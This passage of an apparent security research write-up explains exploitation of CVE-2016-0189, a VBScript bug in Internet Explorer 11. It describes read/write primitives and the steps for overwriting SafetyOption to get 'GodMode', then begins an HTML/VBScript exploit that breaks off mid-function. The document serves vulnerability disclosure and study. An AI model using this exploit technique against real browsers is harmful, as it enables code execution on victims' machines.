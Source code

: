 <div class="text-center">
<img src="/assets/images/2016-06-22/vbscript_crash_poc.png" style="border: 1px solid #CCC">
</div>
<br />

### Exploit

Arbitrary read/write primitives are very powerful in exploitation. In order to make the exploit more readable, we made the operations into nice functions:

  - **getAddr**: Triggers the bug and "sprays" the object we want to get the address of, then searches in memory to find its address.
  - **leakMem**: Triggers the bug and reads the memory content at a given address.
  - **overwrite**: Triggers the bug and overwrites memory at a given address with `CSng(0)` (single-precision 0) variant -- suitable for our purpose to obtain "GodMode"[[2][godmode]{:target="_blank"}] by changing the flag to `0x04`.

With these operations, we can do the following:

  1. Create a (dummy) VBScriptClass instance.
  2. Get the address of the class instance.
  3. Leak CSession address from the class instance.
  4. Leak COleScript address from the CSession instance.
  5. Overwrite SafetyOption in COleScript

Here's the final exploit to gain the "GodMode" in Internet Explorer 11 on Windows 10:

```html
<html>
<head>
<meta http-equiv="x-ua-compatible" content="IE=10">
</head>
<body>
    <script type="text/vbscript">
        Dim aw
        Dim plunge(32)
        Dim y(32)
        prefix = "%u4141%u4141"
        d = prefix & "%u0016%u4141%u4141%u4141%u4242%u4242"
        b = String(64000, "D")
        c = d & b
        x = UnEscape(c)

        Class ArrayWrapper
            Dim A()
            Private Sub Class_Initialize
                ' 2x2000 elements x 16 bytes / element = 64000 bytes
                ReDim Preserve A(1, 2000)
            End Sub

            Public Sub Resize()
                ReDim Preserve A(1, 1)
            End Sub
        End Class

        Class Dummy
        End Class

        Function getAddr (arg1, s)
            aw = Null
```

[ms16-051]: https://technet.microsoft.com/en-us/library/security/ms16-051.aspx
[cve-2016-0189]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-0189
[south-korea]: http://www.symantec.com/connect/blogs/internet-explorer-zero-day-exploit-used-targeted-attacks-south-korea
[bindiff]: https://www.zynamics.com/bindiff.html
[godmode]: http://blog.trendmicro.com/trendlabs-security-intelligence/a-killer-combo-critical-vulnerability-and-godmode-exploitation-on-cve-2014-6332/
[elebp]: https://msdn.microsoft.com/en-us/library/bb250462%28v=vs.85%29.aspx?f=255&MSPPError=-2147217396#wpm_elebp
[zdi-14-270]: http://zerodayinitiative.com/advisories/ZDI-14-270/
[zdi-blog-post]: http://community.hpe.com/t5/Security-Research/There-s-No-Place-Like-Localhost-A-Welcoming-Front-Door-To-Medium/ba-p/6560786#.V2m7-pMrIo_
[sandbox-poc]: https://gist.github.com/worawit/1213febe36aa8331e092
[theori-github]: https://github.com/theori-io/cve-2016-0189